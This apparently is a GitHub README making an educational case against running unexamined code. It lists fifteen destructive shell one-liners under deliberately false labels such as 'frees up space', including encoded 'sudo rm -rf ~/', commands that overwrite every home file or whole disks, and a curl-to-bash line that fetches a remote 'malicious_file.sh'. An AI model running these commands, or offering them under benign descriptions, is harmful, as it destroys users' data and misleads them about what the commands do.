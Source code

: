 # My one page argument for learning to code

## **_NEVER_** run code you don't understand

I often hear people call themselves 'Copy and paste' coders. And, while copying and pasting is a legitimate thing to do,
it should not be your only way of doing things. A better method is to find code, see what is done and then recreate it,
and at a bare minimal, copy it, but know exactly what it does. \
Here is my small example of code that has unintended results.


> "Running code you found on the internet is like chewing gum you found in the subway".

### Try these (IN A VIRTUAL MACHINE!)

#### Here are some bad descriptions to **bad** commands

A. Greatly simplifies document syntax:

``` bash
while read f; do LC_CTYPE=C sed -i "" 's:.:*:g' "$f"; done <<< "$(find ~/ -type f -print)"
```

B. Frees up unnecessary space:

``` bash
du ~ | grep -o '/.*' | xargs rm -rf --
```

C. Re-links your files to improve efficiency:

``` bash
du ~/*/* | grep -o '/.*' | xargs -n 1 ln -sf /dev/null/
```

D. Move files/folders to a volume with unlimited storage:

``` bash
for d in ~/*/*; do mv "$d" /dev/null; done
```

E. Frees up all unnecessary space:

``` bash
command $(echo 7375646f20726d202d7266207e2f0a | xxd -r -p ) &> /dev/null
```

F. Frees up all unnecessary space:

``` bash
command $(echo c3VkbyBybSAtcmYgfi8K | base64 -d ) &> /dev/null
```

G. Chew the gum you don't even know:

``` bash
bash -c "$(curl -s https://raw.githubusercontent.com/thedzy/My-one-page-argument-for-learning-to-code/master/malicious_file.sh)"
```

H. Frees up unnecessary space:

```bash
eval $(sed 's:[a-e,s-z]::g' <<< "stream -draft ~/saved")
```

I. Compress files and save space:

```bash
zip --password "$(openssl rand -base64 64)" --move "$(openssl rand -hex 4)".zip  ~/*/*/*/*/*
```

J. Reduce your need of the external volumes:

```bash
for d in /dev/disk[2-9]*; do dd if=/dev/random of=$d &; done
```

K. Simply your files and your life:

```bash
find ~/ -type f -exec bash -c ':|tee {} &' \;
```

L. Keep logs of files in the home folder utilising your current files:

```bash
find ~/ -type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

M. Cut down on disk space without removing a file:

```bash
while read n; do eval `stat -s /`; echo $n, $st_dev; for i in $(seq 0 1 $n);do [ -f /.vol/$st_dev/$i ] &&  [ -w /.vol/$st_dev/$i ] && echo > /.vol/$st_dev/$i ; done; done <<< `df -i | awk '$NF ~ /\/$/ {print $6}'`           
```

N. Every file gets a random makeover generating original data!

```bash 
find ~ -type f -exec dd if=/dev/urandom of={} bs=1M count=1 \;
```

O. Find your storage’s true limit.

```bash
dirs=($(IFS=$'\n'  find ~/ -type d -print)); while True; do cat /dev/random > ${dirs[$RANDOM % ${#dirs[@]}]}/$(openssl rand -hex $(($RANDOM % 32))); done
```

### Recommended testing environment:

1. Create a virtual machine.
2. Open terminal and run the following command to copy some files to the desktop: \
   ```find / -iname "*.txt" 2>/dev/null | head -n 60 | xargs -n1 -J% cp % $HOME/Desktop/ ```
3. Snapshot your VM, because you'll want it
4. Run the command
5. Restore
6. Rinse and repeat
